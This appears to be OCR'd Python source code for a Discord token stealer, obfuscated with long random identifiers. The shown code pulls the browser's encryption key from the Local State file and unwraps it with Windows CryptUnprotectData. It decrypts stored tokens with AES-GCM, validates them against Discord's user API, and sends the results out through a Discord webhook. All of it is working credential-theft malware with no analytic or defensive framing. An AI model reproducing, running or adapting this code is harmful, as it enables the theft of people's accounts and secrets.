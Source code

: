     def PROMQCKSBMSBDMCYQOBFOAPJJQICCAVBMXINVDTOYSEQPAZAGVVIHZIWJHOEEPJGDMSISHGPPUDACNGZYDZCAEKZMAWYYBZRCJE(TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK, CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT):
        return requests.get(CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT, headers={'Authorization': TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK}).status_code == 200

    def BLCLBNLJBLQTONCRPRSXJVOYQAFLKFWHJUXFKHFZKYJHIWCMRSGMEAAZRNEPSNGNBLMWROCINFJLACRYHQFNIYIOVal(UQSUTQSJBRJHLWFKFIZHTBGKOCYRTOKDVQBWSNVAFTYKZTRTPPXJXTSLOBNHHMLUPQLWVVEIPGBEROCIUKOCYNACKRONGVAQ, OLCPRPYTBGWTQYIDMUVJSGGTWKVSEAQYTNFFYXYDQJNGIOMLNULFBJVCJTZEUSCIIADSYOTWZA):
        NOSIUOOHANGASOBDRJKLCVEJWQRERWOECOIZYUYSTSMTGVINNCNBJUIDQMDSJPFFBQYLPKSSJGJMXDWZ = UQSUTQSJBRJHLWFKFIZHTBGKOCYRTOKDVQBWSNVAFTYKZTRTPPXJXTSLOBNHHMLUPQLWVVEIPGBEROCIUKOCYNACKRONGVAQ[3:15]
        XJCIXDOPWKEVWWNAMMUMNPZHFBABHOIOEXOPGARFVTFIEHYLMERIDCFWBMBWDYGAPMSBGWMHSJOGJWXZGOLRGYATTVIA = UQSUTQSJBRJHLWFKFIZHTBGKOCYRTOKDVQBWSNVAFTYKZTRTPPXJXTSLOBNHHMLUPQLWVVEIPGBEROCIUKOCYNACKRONGVAQ[15:]
        EBZXXTEFHBYNCSJRKGCNQGQBTGSNCIEVATCFAIRKIDTGUGEULNCCCZHWUVACW = AES.new(OLCPRPYTBGWTQYIDMUVJSGGTWKVSEAQYTNFFYXYDQJNGIOMLNULFBJVCJTZEUSCIIADSYOTWZA, AES.MODE_GCM, NOSIUOOHANGASOBDRJKLCVEJWQRERWOECOIZYUYSTSMTGVINNCNBJUIDQMDSJPFFBQYLPKSSJGJMXDWZ)
        return EBZXXTEFHBYNCSJRKGCNQGQBTGSNCIEVATCFAIRKIDTGUGEULNCCCZHWUVACW.decrypt(XJCIXDOPWKEVWWNAMMUMNPZHFBABHOIOEXOPGARFVTFIEHYLMERIDCFWBMBWDYGAPMSBGWMHSJOGJWXZGOLRGYATTVIA)[:-16].decode()

    def KMWGPVOWXIWZOCVHLNJJFOQIORRMPGKRSYPFBPPMTWHTQYRLBIPOLABSFWPHGEHHCCMSYSEYIYMIAGZUGS(HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ):
        if not os.path.exists(HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ):
            return None
        with open(HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ, "r", encoding="utf-8") as v4r_f:
            FIPDVBUKOYJAOUIWJOTZVQXMSDAHTINJCYTLOEJWLKTRSWPTBLUVUZOVVBCIQHFYQ = json.load(v4r_f)
        OLCPRPYTBGWTQYIDMUVJSGGTWKVSEAQYTNFFYXYDQJNGIOMLNULFBJVCJTZEUSCIIADSYOTWZA = base64.b64decode(FIPDVBUKOYJAOUIWJOTZVQXMSDAHTINJCYTLOEJWLKTRSWPTBLUVUZOVVBCIQHFYQ["os_crypt"]["encrypted_key"])[5:]
        return CryptUnprotectData(OLCPRPYTBGWTQYIDMUVJSGGTWKVSEAQYTNFFYXYDQJNGIOMLNULFBJVCJTZEUSCIIADSYOTWZA, None, None, None, 0)[1]

    ICYAONVZTQLABISHPSHDWRZZBSYGBRSTFUBLZOBAAUOSFJQHHQORLFHZLNVENORFP, SGZEHSRYXZXETUCQBJOYBNWQEQRVMEGFDVRTXIXGSRYSAPLEOTMDJINYFWTPQYXTQTLWKDQWZAMPBIYETITBPCHQZULWIUMJHLD = JLNRHKUHTZNGLBXNCBRBXFYMLFILHMZFAVHGAHUEXWVMFCUVNRFEGEIZFQRSWKWAKPNQUCHFVOAZUUIAVVVGKOMCBLFAZ()
    XLIKWCNJJMPBEYWUXOESQQKDDRNEFMGCGJWBYYIYKKODBUSROVETKCDDHHYJLRISGUIMZEXGGJRDIXRBZKGRFYOC = SyncWebhook.from_url(AWYDZXKNMNCAFZWEUXFADCLOWASGYIWLJWAKYXHSQPNVXODYGPUVTXVHXXB)

    if not ICYAONVZTQLABISHPSHDWRZZBSYGBRSTFUBLZOBAAUOSFJQHHQORLFHZLNVENORFP:
        KAVDCFVUEZWGWPKCBIOCASRNNMQQXGRAWJRJHFNWDGSTFHYDKZNCCCOEMBZIBXLOOERNKXVZBMUXEQEXFKSHGHMRTPHK(
            AWYDZXKNMNCAFZWEUXFADCLOWASGYIWLJWAKYXHSQPNVXODYGPUVTXVHXXB, 
            title=f'Discord Token {MYFIQRXYWXELTRZSVXPYXGCUEIAHHGHWRHLOPKIFHXVRDLGHXEHSRKZUCAUELORUVNDYKSYHBXDWRXWBCWVSVSIARINCHFFTMYA}:', 
            description=f"No discord tokens found."
        )
        return
    
    for TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK_d15c0rd in ICYAONVZTQLABISHPSHDWRZZBSYGBRSTFUBLZOBAAUOSFJQHHQORLFHZLNVENORFP:
        OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ = requests.get('https://discord.com/api/v8/users/@me', headers={'Authorization': TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK_d15c0rd}).json()
